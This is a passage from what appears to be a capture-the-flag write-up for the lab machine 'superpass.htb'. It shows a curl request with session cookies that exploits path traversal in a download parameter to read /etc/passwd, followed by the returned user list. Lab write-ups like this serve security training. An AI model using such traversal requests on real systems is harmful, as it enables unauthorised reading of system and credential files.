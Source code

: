 ![Burp LFI](images/port_80_LFI_passwd.png)

```bash
$ curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: superpass.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'session=.eJwlTsuKwzAM_BWjc1lsx5KjfEXvSymWIzeB9EGcnkr_fQU7l2EeDPOBa9tKX7TD9PsBdxjBXXsvN4UTnDctXd32vLn14Y6nK7Va6I5l7e5lnR-4fC8nG9m1LzAd-1tNrTNMIKWSDqnGlBoHL4hlDMJVm2LlKj60gRPnEcViHEk9a_YzKmaDCHKMKi0POYxEIsTszebISRKlRIg-I7FQ9LlFLpKCD6RkuuFs96_vrvv_G4bvH7XuRMs.Znjerw.c8mYkBgRvnDmdDZ7z1SUhR3GYRw; remember_token=9|fd28b85a6634750a15973d2744a9332c5b90df81d7e0ec07e607f6ab830331b3deb216d40783f8786553968235f9bd88e68864135e7e6743ba4552f0ee8cc593' \
    $'http://superpass.htb/download?fn=../etc/passwd' | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
corum:x:1000:1000:corum:/home/corum:/bin/bash
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
```
